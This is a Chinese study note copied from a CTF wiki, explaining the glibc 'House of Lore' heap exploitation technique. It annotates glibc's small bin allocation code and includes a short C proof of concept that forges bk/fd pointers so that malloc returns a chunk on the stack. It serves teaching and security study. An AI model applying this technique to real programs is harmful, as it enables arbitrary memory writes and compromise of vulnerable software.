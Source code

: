 继续wiki搬运学习

https://wiki.x10sec.org/pwn/linux/glibc-heap/house_of_lore-zh/

# House of Lore

## 概述 

House of Lore 攻击与 Glibc 堆管理中的 Small Bin 的机制紧密相关。

House of Lore 可以实现分配任意指定位置的 chunk，从而修改任意地址的内存。

House of Lore 利用的前提是需要控制 Small Bin Chunk 的 bk 指针，并且控制指定位置 chunk 的 fd 指针。



其实本质就是small bin双链表的伪造，注意检查机制就行

## 基本原理 

如果在 malloc 的时候，申请的内存块在 small bin 范围内，那么执行的流程如下



```c
    /*
       If a small request, check regular bin.  Since these "smallbins"
       hold one size each, no searching within bins is necessary.
       (For a large request, we need to wait until unsorted chunks are
       processed to find best fit. But for small ones, fits are exact
       anyway, so we can check now, which is faster.)
     */

    if (in_smallbin_range(nb)) {
        // 获取 small bin 的索引
        idx = smallbin_index(nb);
        // 获取对应 small bin 中的 chunk 指针
        bin = bin_at(av, idx);
        // 先执行 victim= last(bin)，获取 small bin 的最后一个 chunk
        // 如果 victim = bin ，那说明该 bin 为空。
        // 如果不相等，那么会有两种情况
        if ((victim = last(bin)) != bin) {
            // 第一种情况，small bin 还没有初始化。
            if (victim == 0) /* initialization check */
                // 执行初始化，将 fast bins 中的 chunk 进行合并
                malloc_consolidate(av);
            // 第二种情况，small bin 中存在空闲的 chunk
            else {
                // 获取 small bin 中倒数第二个 chunk 。
                bck = victim->bk;
                // 检查 bck->fd 是不是 victim，防止伪造
                if (__glibc_unlikely(bck->fd != victim)) {
                    errstr = "malloc(): smallbin double linked list corrupted";
                    goto errout;
                }
                // 设置 victim 对应的 inuse 位
                set_inuse_bit_at_offset(victim, nb);
                // 修改 small bin 链表，将 small bin 的最后一个 chunk 取出来
                bin->bk = bck;
                bck->fd = bin;
                // 如果不是 main_arena，设置对应的标志
                if (av != &main_arena) set_non_main_arena(victim);
                // 细致的检查
                check_malloced_chunk(av, victim, nb);
                // 将申请到的 chunk 转化为对应的 mem 状态
                void *p = chunk2mem(victim);
                // 如果设置了 perturb_type , 则将获取到的chunk初始化为 perturb_type ^ 0xff
                alloc_perturb(p, bytes);
                return p;
            }
        }
    }
```

从下面的这部分我们可以看出



```c
                // 获取 small bin 中倒数第二个 chunk 。
                bck = victim->bk;
                // 检查 bck->fd 是不是 victim，防止伪造
                if (__glibc_unlikely(bck->fd != victim)) {
                    errstr = "malloc(): smallbin double linked list corrupted";
                    goto errout;
                }
                // 设置 victim 对应的 inuse 位
                set_inuse_bit_at_offset(victim, nb);
                // 修改 small bin 链表，将 small bin 的最后一个 chunk 取出来
                bin->bk = bck;
                bck->fd = bin;
```

如果我们可以修改 small bin 的最后一个 chunk 的 bk 为我们指定内存地址的 fake chunk，并且同时满足之后的 bck->fd != victim 的检测，那么我们就可以使得 small bin 的 bk 恰好为我们构造的 fake chunk。也就是说，当下一次申请 small bin 的时候，我们就会分配到指定位置的 fake chunk。



示例代码

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>


int main(int argc, char * argv[]){
	intptr_t* stack_buffer_1[4] = {0};
	intptr_t* stack_buffer_2[4] = {0};
	intptr_t *victim = malloc(0x100);
	malloc(0x10);
	free(victim);
	malloc(0x400);
	victim[1] = &stack_buffer_1; // victim_chunk_addr->bk = stack_buffer_1_addr
	stack_buffer_1[2] = victim-2; //stack_buffer_1->fd = victim_chunk_addr
	stack_buffer_1[3] = &stack_buffer_2; // stack_buffer_1->bk = stack_buffer_2_addr
	stack_buffer_2[2] = &stack_buffer_1;//stack_buffer_2->fd = stack_buffer_1_addr
//===============================line=================================
	intptr_t *p1 = malloc(0x100);
	intptr_t *p2 = malloc(0x100);//chunk on the stack
	malloc(0x100); //failed : bck->fd != victim
}
```

执行到line的时候的草图

![](1.jpg)



最后一次malloc(0x100)会crash因为访问非法区域当然后面这个bck->fd != victim条件也不会满足

![](2.png)



最终效果：申请到了栈上的堆块